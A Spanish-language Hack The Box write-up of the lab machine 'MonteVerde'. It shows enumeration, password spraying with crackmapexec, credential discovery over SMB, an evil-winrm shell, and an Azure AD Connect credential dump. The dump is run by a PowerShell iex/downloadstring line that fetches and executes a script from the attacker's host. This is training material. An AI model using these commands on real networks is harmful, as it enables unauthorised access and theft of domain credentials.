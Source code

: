 ```yaml
---
layout: post
title: MonteVerde
date: 2022-11-18
categories: ["HTB", "RPC", "SMB", "Azure"]
thumbnail: "assets/images/MonteVerde.png"
---
```


# MonteVerde [ Hack The Box ]

### Reconocimiento

#### Descubrimiento de puertos y reconocimiento básico
- `nmap -sS --min-rate 5000 10.10.10.172 -oG allPorts`
```
nmap -sCV -p53,88,135,139,389,445,464,593,636,3268,3269,5985,9389 10.10.10.172 -oN targeted
```

Vemos que está el puerto `5985` abierto, pertenece a `WinRM`, pero no tenemos credenciales.

### RPC

Como vemos no hay ningún puerto de servidor web, así que nos tenemos que apañar con l que tenemos, en este caso vemos el puerto `139` abierto, pero cuando tratamos de listar el contenido nos deniega el acceso.

Como tampoco podemos listar el puerto `445` vamos a tratar de conseguir una sesión `RPC` sin credenciales, así que hacemos lo siguiente:

- `rpcclient -U "" -N 10.10.10.172`

Bien! Vemos que obtenemos una conexión! Vamos a desplegar información con el comando
`querydispinfo`. Vemos muchos números, pero también varios nombres de usuario con su respectivo nombre.

```
[...] Account: AAD_987d7f2f57d2 [...]
[...] Account: dgalanos [...]
[...] Account: Guest [...]
[...] Account: mhope [...]
[...] Account: roleary [...]
[...] Account: SABatchJobs [...]
[...] Account: smorgan [...]
[...] Account: svc-ata [...]
[...] Account: svc-bexec [...]
[...] Account: svc-netapp [...]
```

Vamos a copiar todos los nombres de usuario en un archivo, en mi caso llamado `users`. Una vez tenemos el archivo podemos utilizar `CrackMapEXEC` para hacer fuerza bruta. Como sólo tenemos los nombres de usuario y queremos probar algo rápido antes que algo exhaustivo vamos a probar utilizando el nombre de usuario como contraseña.

- `crackmapexec smb 10.10.10.172 -u users -p users --continue-on-success`

```
[...]
SMB 10.10.10.172 445 MONTEVERDE [+] MEGABANK.LOCAL\SABatchJobs:SABatchJobs
[...]
```

Bien! Hemos obtenido la contraseña de `SABatchJobs` (`SABatchJobs:SABatchJobs`) para `SMB`!

### Shell

Bien, como ya disponemos de credenciales válidas vamos a listar de nuevo `SMB`, pero utilizando las credenciales encontradas. En mi caso utilizaré `SMBMap` ya que directamente me dice qué directorios puedo leer, modificar o no tener acceso.

- `smbmap -H 10.10.10.172 -u SABatchJobs -p SABatchJob`

```
[+] IP: 10.10.10.172:445 Name: 10.10.10.
Disk            Permissions       Comment
----            -----------       -------
ADMIN$          NO ACCESS         Remote Admin
azure_uploads   READ ONLY
C$              NO ACCESS         Default share
E$              NO ACCESS         Default share
PC$             READ ONLY         Remote IPC
NETLOGON        READ ONLY         Logon server share
SYSVOL          READ ONLY         Logon server share
users$          READ ONLY
```

Vemos un directorio que nos llama la atención llamado `users$` el cual podemos leer, vamos a ver qué tiene.

- `smbclient -U SABatchJobs //10.10.10.172/users$ SABatchJobs`

```
smb> get mhope/azure.xml
```

Bien! Tenemos un archivo XML! Vamos a ver qué contiene!

```
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
<Obj RefId="0">
<TN RefId="0">
<T>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</T>
<T>System.Object</T>
</TN>

<ToString>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</ToString>
<Props>
<DT N="StartDate">2020-01-03T05:35:00.7562298-08:00</DT>
<DT N="EndDate">2054-01-03T05:35:00.7562298-08:00</DT>
<G N="KeyId">00000000-0000-0000-0000-000000000000</G>
<S N="Password">4n0therD4y@n0th3r$</S>
</Props>
</Obj>
</Objs>
```

Wow! Vemos la contraseña de Azure en texto claro! Ahora para acceder y obtener una Shell vamos a utilizar `WinRM` ya que vimos que el puerto `5985` está abierto.

- `evil-winrm -i 10.10.10.172 -u mhope -p '4n0therD4y@n0th3r$'`

```
Info: Starting Evil-WinRM shell v1.

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\mhope\Documents>

```

Bien! Ya estamos en la máquina como `mhope`!

### Subida de privilegios

Ahora que ya estamos en la máquina tenemos que tratar de ser administradores, así que
comenzé por enumeración básica, por lo que miraré en los grupos que se encuentra `mhope`.

```
*Evil-WinRM* PS C:\> net user mhope
User name                    mhope
Full Name                    Mike Hope
Comment                      
User's comment               
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            1/2/2020 3:40:05 PM
Password expires             Never
Password changeable          1/3/2020 3:40:05 PM
Password required            Yes
User may change password     No

Workstations allowed         All
Logon script                 
User profile                 
Home directory               \\monteverde\users$\mhope
Last logon                   1/18/2020 11:05:46 AM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use
Global Group memberships     *Azure Admins         *Domain Users         
The command completed successfully.
```

Vemos que se encuentra en el grupo `Azure Admins`, así que después de estar mirando un poco llegué al directorio `C:\Program Files`, donde vemos varias carpetas con el nombre de `Azure`, con `*` podemos filtrar por la cadena que queramos.

```
*Evil-WinRM* PS C:\Program Files> ls *Azure*

    Directory: C:\Program Files

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         1/2/2020   2:51 PM                Microsoft Azure Active Directory Connect
d-----         1/2/2020   3:37 PM                Microsoft Azure Active Directory Connect Upgrader
d-----         1/2/2020   3:02 PM                Microsoft Azure AD Connect Health Sync Agent
d-----         1/2/2020   2:53 PM                Microsoft Azure AD Sync
```

Investigando un poco llegamos a un artículo de [`XPN`](https://blog.xpnsec.com/azuread-connect-for-redteam/). El artículo habla de cómo
explotar `Azure Connect`.

Vemos que `mhope` es capaz de conectarse a la base de datos local (ya que es administrador) y extraer la configuración, después de eso podemos decodearlo y obtener el nombre de usuario y contraseña en texto claro de la cuenta que ha manejado la réplica.

Traté de utilizar el `script` del artículo, pero tenemos que cambiar la variable `client` para hacer que conecte con la `DB`.

```
$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Server=127.0.0.1;Database=ADSync;Integrated Security=True"
```

Una vez tenemos todo listo podemos montarnos un servidor en Python para pasarle el
archivo PS1 y hacer que lo corra, para eso haremos lo siguiente:

- `python3 -m http.server 80`

```
*Evil-WinRM* PS C:\Program Files> iex(new-object net.webclient).downloadstring('http://10.10.14.11/Get-MSOLCredentials.ps1')
Domain: MEGABANK.LOCAL
Username: administrator
Password: d0m@in4dminyeah!
```
Bien! Ya tenemos la contraseña de `administrator` (`administrator:d0m@in4dminyeah!`)! Ahora podemos hacer como antes y con `Evil-WinRM` conectarnos como `administrator`.

Enhorabuena! Ya somos administradores de la máquina!
